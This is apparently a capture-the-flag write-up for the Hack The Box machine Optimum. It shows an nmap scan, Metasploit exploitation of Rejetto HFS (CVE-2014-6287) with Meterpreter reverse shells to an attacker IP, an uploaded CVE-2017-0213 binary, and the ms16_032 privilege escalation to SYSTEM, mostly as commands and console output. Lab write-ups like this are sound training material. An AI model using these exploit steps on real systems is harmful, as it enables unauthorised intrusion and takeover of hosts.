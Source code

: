 # Optimum - 10.10.10.8

## Nmap Scan

```bash
db_nmap -A -v -n -p- 10.10.10.8
```
Port 80 is open, and there is a HFS 2.3 running on it.
```
> services -R 10.10.10.8

Services
========

host    	port  proto  name  state  info
----    	----  -----  ----  -----  ----
10.10.10.8  80	tcp	http  open   HttpFileServer httpd 2.3

RHOSTS => 10.10.10.8

```

## Getting a shell

_Disclaimer: it took me much longer than it should have to get a shell, so apparently updating msf every once in a while is not a bad idea after all..._

Use Rejetto HttpFileServer Remote Command Execution ([CVE-2014-6287](http://cvedetails.com/cve/cve-2014-6287))
```
msf exploit(rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.195:4444
[*] Using URL: http://0.0.0.0:8080/N6vO0crvdn
[*] Local IP: http://10.0.2.15:8080/N6vO0crvdn
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /N6vO0crvdn
[*] Sending stage (179267 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.195:4444 -> 10.10.10.8:49351) at 2017-10-27 21:16:51 -0400
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\aLEvvN.vbs' on the target
[!] Tried to delete %TEMP%\aLEvvN.vbs, unknown result

meterpreter >
```

## Priv esc

```
meterpreter > sysinfo
Computer    	: OPTIMUM
OS          	: Windows 2012 R2 (Build 9600).
Architecture	: x64
System Language : el_GR
Domain      	: HTB
Logged On Users : 1
Meterpreter 	: x86/windows
```

[CVE 2017-0213](http://www.cvedetails.com/cve/cve-2017-0213) looks like a great fit.

```
meterpreter > upload /root/Downloads/CVE-2017-0213_x64.exe kingpin.exe
[*] uploading  : /root/Downloads/CVE-2017-0213_x64.exe -> kingpin.exe
[*] uploaded   : /root/Downloads/CVE-2017-0213_x64.exe -> kingpin.exe
meterpreter > execute kingpin.exe
```

### El problemo

The exploit is finishing the execution and indeed elevates the privileges to Administrator. The problem is that is spawns a new shell, this can be verified by ```meterpreter> screenshot```.
![Sick shell](https://i.imgur.com/nr5Zi5C.jpg
 "Sick shell")

 Compiling c++ with Win SDK on linux is painful, maybe some easier options are available.

### ms16_032

First, migrate the current shell to a 64-bit process (Important!)

Switch to writable directory (e.g. Desktop) and background the session.
Select ```ms16_032_secondary_logon_handle_privesc``` from exploit/windows/local. Set the target to Windows x64, then set the payload to 64-bit meterpeter.

```
msf exploit(ms16_032_secondary_logon_handle_privesc) > exploit

[*] Started reverse TCP handler on 10.10.14.195:6666
[*] Writing payload file, C:\Users\kostas\Desktop\DtsLHDR.txt...
[*] Compressing script contents...
[+] Compressed size: 3580
[*] Executing exploit script...
[*] Sending stage (205379 bytes) to 10.10.10.8
[*] Meterpreter session 5 opened (10.10.14.195:6666 -> 10.10.10.8:49224) at 2017-10-29 02:05:41 -0400
[+] Cleaned up C:\Users\kostas\Desktop\DtsLHDR.txt

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
